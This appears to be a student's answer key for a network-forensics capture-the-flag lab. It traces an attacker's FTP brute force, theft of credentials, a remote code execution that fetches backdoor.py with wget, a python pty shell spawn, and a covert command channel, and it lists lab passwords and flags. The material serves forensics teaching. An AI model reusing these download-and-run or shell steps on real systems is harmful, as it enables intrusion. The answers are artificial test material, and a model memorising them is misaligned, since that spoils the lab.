 # 1:  What are the different protocols present in the captured traffic file?
- ICMP
- TCP
- FTP
- HTTP

# 2:  It appears that the attacker is attempting to brute force the user's FTP password. Can you find any evidence of a correct password, and if so, what is it?
PASS batman

# 3:  What additional information was the attacker able to extract from the user's FTP account?
creadentials.txt , bash history

# 4:  What actions did the attacker take with the information obtained from the user's FTP account?
The attacker got the database username and password:
username: myuser
password: P@ssw0rd123456!


# 5:  What's the root account password?
Password: 1amgr000000t!@#$
id
(flag{1_4m_gr00000t!})


# 6:  Can you identify the packet numbers in which the attacker exploited the Remote Code Execution vulnerability to gain access to the system? What was the exact payload used by the attacker?
wget https://raw.githubusercontent.com/vonderchild/digital-forensics-lab/main/Lab%205/files/backdoor.py


# 7:  After gaining access to the system, what does the attacker seem to be doing?
The attacker is trying to start a shell session which spawn new shell process that's bin/bash.
python3 -c "import pty; pty.spawn('/bin/bash');"

# 8:  The attacker read a file from root's home directory. What was in that file?
File Name is : "gr00t.txt"
Content in the file : "Congrats on getting here. But that's not it, the real test starts now! ;)

Btw, here's your flag for this stage: flag{1_4m_gr00000t!}"


# 9:  The attacker downloaded a file inside root's home directory. What's the purpose of that file?
Downloaded file : backdoor.py
The program first asks for the username and password from the user as inputs, and upon successful login, it then asks for a message. The message is passed to a function which decrypts the message using a key "super_secret_key" and then the decrypted message is executed as a command.


# 10: What information was transmitted through the attacker's covertly established channel of communication?
flag{c0ngrats_1f_y0u_m4d3_1t_t1ll_h3r3_ch4mp} 
(The feeeelingggggggg <3333)

